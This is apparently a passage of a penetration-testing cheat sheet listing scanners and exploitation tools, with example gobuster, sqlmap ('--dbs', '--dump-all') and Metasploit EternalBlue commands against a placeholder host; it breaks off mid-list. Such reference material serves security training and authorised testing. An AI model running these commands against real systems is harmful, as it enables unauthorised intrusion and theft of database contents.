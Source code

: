 ```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## 4. Vulnerability Scanning

| **Tool**         | **Description**                                              |
|------------------|--------------------------------------------------------------|
| **Nessus**       | Comprehensive vulnerability scanner for various platforms.   |
| **OpenVAS**      | Open-source vulnerability scanner, useful for network and web vulnerabilities. |
| **Nikto**        | Scans web servers for outdated versions and configuration issues. |
| **SQLMap**       | Automated tool for SQL injection testing and exploitation.    |
| **WPScan**       | WordPress vulnerability scanner to check plugins, themes, and user enumeration. |

### Example SQLMap Commands

```bash
sqlmap -u "http://target.com/page?id=1" --dbs          # Enumerate databases on vulnerable parameter
sqlmap -u "http://target.com/page?id=1" --dump-all     # Dump all data from vulnerable database
```

---

## 5. Exploitation Tools and Techniques

| **Tool**            | **Description**                                              |
|---------------------|--------------------------------------------------------------|
| **Metasploit**      | Popular exploitation framework for executing payloads and managing sessions. |
| **BeEF**            | Tool for exploiting client-side vulnerabilities through the browser. |
| **Cobalt Strike**   | Advanced threat emulation tool for red team operations.      |
| **Empire**          | Post-exploitation tool for PowerShell-based exploitation on Windows systems. |
| **Responder**       | Network tool to capture and exploit LAN authentication protocols. |

### Basic Metasploit Usage

1. **Search for Exploits:**

    ```bash
    search <vulnerability or software>
    ```

2. **Select an Exploit:**

    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```

